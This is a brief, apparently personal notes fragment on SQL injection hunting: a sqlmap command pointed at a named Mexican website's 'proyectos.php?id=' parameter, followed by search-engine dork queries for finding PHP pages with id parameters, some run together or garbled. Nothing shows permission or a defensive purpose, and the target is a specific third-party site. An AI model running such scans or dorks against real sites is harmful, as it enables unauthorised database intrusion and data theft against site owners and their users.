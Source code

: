 sqlmap -u https://www.mexico2.com.mx/proyectos.php?id=21





Searches


```
inurl:newsDetail.php?id=inurl:gallery.php?id=d=inurl:event.php?id=inurlroduct-item.php?id=inurl:sql.php?id=inurl:news_view.php?id=inurl:select_biblio.php?id=inurl:humor.php?id=inurl:aboutbook.php?id=inurl:fiche_spectacle.php?id=

```

```
site:mx inurl:php?id=
```